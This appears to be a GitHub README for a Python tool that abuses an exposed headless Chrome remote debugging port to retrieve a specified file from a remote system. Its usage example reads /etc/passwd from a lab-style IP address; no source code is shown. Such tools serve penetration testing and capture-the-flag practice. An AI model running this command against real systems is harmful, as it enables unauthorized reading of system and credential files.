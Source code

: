 # chrome-remote-debugging.py
Script to take advantage of headless chrome session to retrieve a specified file off the remote system

Usage
```
python chrome-remote-debugging.py <remote ip> <debugging port> <file path>
python chrome-remote-debugging.py 10.10.10.100 50000 /etc/passwd
```

![](https://raw.githubusercontent.com/nokn0wthing/chrome-remote-debugging.py/main/1.png)
